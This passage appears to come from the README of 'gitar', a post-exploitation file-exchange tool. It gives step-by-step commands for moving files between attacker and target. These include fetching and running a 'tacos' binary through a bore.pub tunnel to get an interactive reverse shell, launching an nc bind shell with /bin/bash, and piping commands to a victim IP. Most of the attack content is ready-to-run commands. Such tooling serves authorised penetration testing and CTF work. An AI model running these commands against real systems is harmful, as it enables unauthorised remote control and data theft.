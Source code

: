 ## Bidirectional exchange

You can also use `push` and `pull` shortcuts from attacker machine, after shortcuts have been loaded on target. It does not require addtional requirements on both machines. To do so it is recommended to load `alias` (put them in your `~/[SHELL]rc`) and launch gitar as follow:
```shell
gtrclean
gitar -bidi
```

On another attacker terminal window you can now push file to remote:
```shell
gtrbidi #to load gitar shortcut
push [FILENAME]

#[...] when your exchange is done
gtrclean 
```

***Notes:*** It will push files on remote within the directory where the `source` command occurs

### 🐋 Container and bidirectional exchange
```shell
BIDIR=$(mktemp -d);docker run -it --rm --cap-drop=all --cap-add=dac_override --net host --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" -v "$BIDIR:$BIDIR" ariary/gitar -bidi -bd $BIDIR
```

Then on attacker machine load shortcut:
```shell
gtrbidi.docker
```

### Limits
* Only work for file (does not work for `pullr` and `pushr`)
* Increase considerably the number of http requests on target

## Multiplexing & Port forwarding
> ***- Why?***
> 
>\- To expose my http file exchange server + reverse shell listener on the same port

*useful when paired with a tunnel to localhost (as with free version you often have only 1 port/tunnel at a time)*

Suppose:
 * you use [`bore`](https://github.com/ekzhang/bore) to perform localhost tunneling
 * you have RCE on remote target
 * Target -> Attacker is not possible but Target -> Internet -> Attacker is

If you want an **interactive** reverse shell you may think about [`tacos`](https://github.com/ariary/tacos).

You need to download it on target. Then execute it.

**BUT** HTTP server port and reverse shell listening port are not the same so tunneling only 1 local port won't work.

Now you can! Here is the procedure:
```shell
# On attacker
## First tab, port tunneling
bore local 9292 --to bore.pub

## Second tab, launch gitar (serve tacos of course)
gitar -a bore.pub:[BORE_PORT] -f 4444 -s demo

# On target
## Retrieve tacos binary
curl https://bore.pub:[BORE_PORT]/demo/pull/tacos
## Shutdown gitar http server (⇒ local port forwarding activated)
curl https://bore.pub:[BORE_PORT]/demo/shutdown
## Execute tacos to get interactive reverse shell
chmod +x tacos && ./tacos bore.pub:[BORE_PORT]
```

## Load shortcut directly in your bind shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you bindshell [🎶](#tldr---and-listen-music)**
